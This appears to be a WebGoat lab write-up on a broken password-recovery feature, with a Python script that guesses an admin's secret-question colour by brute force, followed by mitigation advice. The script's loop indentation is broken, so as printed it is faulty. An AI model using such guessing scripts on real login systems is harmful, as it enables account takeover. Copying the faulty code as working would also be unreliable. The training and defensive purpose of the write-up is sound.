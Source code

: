 ## Vulnerability:

Provided mechanism for password recovery is completely broken. It is vulnerable to guessing attack and also passwords are stored in clear on the server.

There's limited number of colors that can be chosen and there is no lock-out mechanism so the attacker can easily guess the color used by the admin.

## Exploitation:

Here's my simple script that guesses admin's favorite color:

```
#!/usr/bin/python3

# (http://docs.python-requests.org/en/latest/)
from requests import post
import sys

colors = ['green', 'blue', 'black', 'white', 'brown', 'yellow', 'orange', 'pink', 'grey', 'red', 'violet']

proxies = {
    "http": "http://127.0.0.1:8081",
}

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://webgoat.hacking-lab.com',
    'Referer': 'http://webgoat.hacking-lab.com/attack?Screen=64&menu=500'
}

data1 = {'Username': 'admin', 'SUBMIT': 'Submit'}

r = post("http://webgoat.hacking-lab.com/attack?Screen=64&menu=500", headers=headers, proxies=proxies, data=data1)

cookie = dict(JSESSIONID=r.cookies['JSESSIONID'])

for color in colors:
    data2 = {'Color': color, 'SUBMIT': 'Submit'}

r = post("http://webgoat.hacking-lab.com/attack?Screen=64&menu=500", headers=headers, cookies=cookie, proxies=proxies, data=data2)

if 'For security reasons, please change your password immediately' in r.text:
    print("admin's color: " + color)
    break
```

## Mitigation:

1) Do not store passwords in cleartext on the server. At a very least passwords should be hashed and salted. Do not invent your own password storage mechanism if possible. Use PBKDF2 or bcrypt for example. Follow this guideline: https://www.owasp.org/index.php/Password_Storage_Cheat_Sheet for details.

2) Basically one can use email verification or secret question(s) (or both) for password reset functionality. When secret questions are used, make sure that questions are hard to guess and unique enough to prevent googling for the answer. Consider lock-out mechanism 
